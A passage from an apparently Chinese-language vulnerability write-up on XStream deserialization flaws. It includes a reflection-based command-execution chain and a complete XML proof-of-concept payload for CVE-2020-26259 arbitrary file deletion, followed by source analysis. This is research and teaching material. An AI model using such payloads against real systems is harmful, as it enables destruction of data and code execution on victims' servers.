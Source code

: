 filter则是javax.imageio.ImageIO$ContainsFilter

跟进过来看到

![image-20220518164546370](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220518164546370.png)

调用了method.invoke传入的参数就poc构造的java.lang.ProcessBuilder

在method和elt都可控的情况下，method控制为ProcessBuilder类的start方法，因为这是个无参的方法，直接传入ProcessBuilder对象即elt即可，通过反射执行了ProcessBuilder类的start方法造成了命令执行

# CVE-2020-26259任意文件删除漏洞

## 漏洞复现

poc

```XML
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
                        <contentType>text/plain</contentType>
                        <is class='com.sun.xml.internal.ws.util.ReadAllStream$FileStream'>
                            <tempFile>/test.txt</tempFile>
                        </is>
                    </dataSource>
                    <transferFlavors/>
                </dataHandler>
                <dataLen>0</dataLen>
            </value>
        </jdk.nashorn.internal.objects.NativeString>
        <string>test</string>
    </entry>
</map>
```

在我的根目录下创建一个txt后，运行后删除

## 漏洞分析

其实这个POC和上面CVE-2020-16217差别不大，只是is属性变了而已，继续看到这个get方法

![image-20220518170205555](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220518170205555.png)

之前是从readFrom下手，这次是从close方法下手

此时的is是com.sun.xml.internal.ws.util.ReadAllStream$FileStream，跟入`com.sun.xml.internal.ws.util.ReadAllStream$FileStream`中的close方法
